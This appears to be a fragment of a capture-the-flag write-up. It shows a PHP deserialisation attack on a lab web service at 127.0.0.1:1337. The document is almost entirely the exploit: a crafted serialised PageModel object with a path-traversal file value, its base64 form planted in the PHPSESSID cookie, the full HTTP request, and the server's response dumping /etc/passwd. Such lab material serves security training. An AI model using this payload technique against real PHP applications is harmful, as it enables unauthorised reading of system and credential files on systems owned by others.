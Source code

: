 Crafted serialised object: `O:9:"PageModel":1:{s:4:"file";s:28:"../../../../../../etc/passwd";}`  
  
`base64` encoded serialised object: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyODoiLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZCI7fQ==`
```http
GET / HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyODoiLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZCI7fQ==
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 09:32:52 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 1262

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
